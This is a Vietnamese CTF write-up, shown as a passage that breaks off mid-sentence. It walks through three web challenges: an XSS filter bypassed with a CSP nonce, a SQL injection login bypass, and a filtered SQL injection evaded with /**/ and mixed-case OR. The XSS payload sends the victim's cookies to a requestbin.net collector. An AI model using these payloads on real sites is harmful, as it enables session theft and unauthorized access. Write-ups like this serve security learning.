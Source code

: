 ## Challenge XSS Filter
Bài này khác bài trên khi mình nhập vào `<script>alert(1);</script>` thì web vẫn không thông báo popup cho mình. Bật console lên thử nhập lại thì thấy có [CSP](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP), nonce phải bằng `matuhn`.

Sau khi biết `nonce="matuhn"` thì chúng ta thử lại với payload sau:

```
<script nonce="matuhn">alert(1);</script>
```
Kết qủa web trả về thông báo popup `1` như bài `XSS` => trigger xss thành công. Bây giờ chỉ cần lấy cookie như bài XSS thôi

Các bạn có thể kiểm tra csp bằng cách xem header cũng được nhé.

### Payload
```
<script nonce="matuhn">document.location='https://requestbin.net/r/1vg7yclv?data='+document.cookie</script>
```
Các bạn nhớ vô trang [Requestbin](https://requestbin.net/) tạo 1 requestbin cho riêng minh và thay vào payload trên nha.

## Challenge Ét Quy Eo
Như tên bài thì bài này có thể là `SQL Injection`. Truy cập vào chall thì có 1 form đăng nhập gồm `username` và `password`.

Mình nhớ là thử input vô username `'` thì có thông báo lỗi của `sql` => sql injection

### Payload
```
username=' or 1=1--&password=' or 1=1--
```
Câu query trong server có thể như sau:

```sql
SELECT username,password from users where username='{username}' and password='{password}'
```

## Challenge SQL Filter
Ở bài như tên bài thì sẽ có 1 số filter, thử lại payload `' or 1=1--` thì không thể lấy flag như bài cũ mà sẽ trả về `hack detect` (mình nhớ là vậy), tất nhiên rồi như vậy thì filter làm gì :D 

Tới đây mình kiểm tra xem các char nào bị filter thì thấy được một số char như sau:
- `khoảng trắng`, `or` và `Or`.
- nhưng khi mình nhập `OR` hoặc `oR` thì không bị filter.

### Payload
Để bypass 1 các char ở trên:
- `khoảng trắng` -> `/**/`
- `or` -> `OR` hoặc `oR`

```
username='/**/oR/**/1=1--&password='/**/oR/**/1=1--
```
Câu query sql thì có thể vẫn sẽ giống như bài trên nhưng sẽ có thêm 1 đoạn kiểu kiểu như này
